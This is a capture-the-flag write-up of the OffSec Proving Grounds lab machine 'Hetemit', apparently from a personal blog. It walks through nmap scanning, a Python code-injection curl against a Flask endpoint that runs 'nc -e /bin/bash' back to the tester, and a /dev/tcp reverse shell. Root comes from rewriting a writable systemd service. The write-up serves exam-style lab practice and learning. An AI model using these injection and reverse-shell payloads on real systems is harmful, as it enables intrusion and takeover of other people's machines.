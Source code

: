 ```yaml
---
title: "Proving grounds Practice: Hetemit"
layout: post
date: 2024-03-27 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- File Write
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


# NMAP

```text
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.3
22/tcp    open  ssh         OpenSSH 8.0 (protocol 2.0)
80/tcp    open  http        Apache httpd 2.4.37 ((centos))
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
18000/tcp open  biimenu?
50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)
```

## 21/tcp    open  ftp         vsftpd 3.0.3

anonymous login successfull
nothing...

## 139/tcp   open  netbios-ssn Samba smbd 4.6.2
## 445/tcp   open  netbios-ssn Samba smbd 4.6.2

```sh
naveenj@hackerspace:[06:54]~/proving_grounds/Hetemit$ smbclient -L //192.168.201.117/ -N
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	Cmeeks          Disk      cmeeks Files
	IPC$            IPC       IPC Service (Samba 4.11.2)
Reconnecting with SMB1 for workgroup listing.

smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
```

## 50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)

- http://192.168.201.117:50000/verify

```sh
naveenj@hackerspace:[06:49]~/proving_grounds/Hetemit$ curl -X POST --data "code=4*4" http://192.168.201.117:50000/verify
16
```
Vulnerable to command injection

```sh
#inject reverse shell
naveenj@hackerspace:[06:49]~/proving_grounds/Hetemit$ curl -X POST --data "code=os.system('nc -e /bin/bash 192.168.45.218 80')" http://192.168.201.117:50000/verify
# netcat listening
naveenj@hackerspace:[06:49]~/proving_grounds/Hetemit$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.218] from (UNKNOWN) [192.168.201.117] 50652
which python
id
uid=1000(cmeeks) gid=1000(cmeeks) groups=1000(cmeeks)
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")' 
[cmeeks@hetemit restjson_hetemit]$ 
```

Initial foothold obtained.

## Privilege Escalation

### Linpeas Enumeration
```sh
╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses
/home/cmeeks/.rvm/gems/ruby-2.6.3/bin:/home/cmeeks/.rvm/gems/ruby-2.6.3@global/bin:/home/cmeeks/.rvm/rubies/ruby-2.6.3/bin:/home/cmeeks/.local/bin:/home/cmeeks/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/home/cmeeks/.rvm/bin:/home/cmeeks/.rvm/bin

╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services
/etc/systemd/system/multi-user.target.wants/pythonapp.service
/etc/systemd/system/multi-user.target.wants/pythonapp.service could be executing some relative path
/etc/systemd/system/multi-user.target.wants/railsapp.service could be executing some relative path
/etc/systemd/system/pythonapp.service

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff

/usr/sbin/suexec = cap_setgid,cap_setuid+ep

╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#init-init-d-systemd-and-rc-d
You have write privileges over /etc/systemd/system/pythonapp.service
```

### Exploitation

Writing shell to file `/etc/systemd/system/pythonapp.service`.

**Original content**

```sh
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

**Modified Content**

```sh
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/restjson_hetemit/run.sh #add reverse shell in the bash script
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

**run.sh**

```sh
#!bin/bash

bash -c 'sh -i >& /dev/tcp/192.168.45.218/22 0>&1'
```

```sh
naveenj@hackerspace:[07:28]~/proving_grounds/Hetemit$ nc -lvnp 22
listening on [any] 22 ...
connect to [192.168.45.218] from (UNKNOWN) [192.168.201.117] 39016
sh: cannot set terminal process group (989): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4# 
```

**Root Obtained**

## References

- https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740
- https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).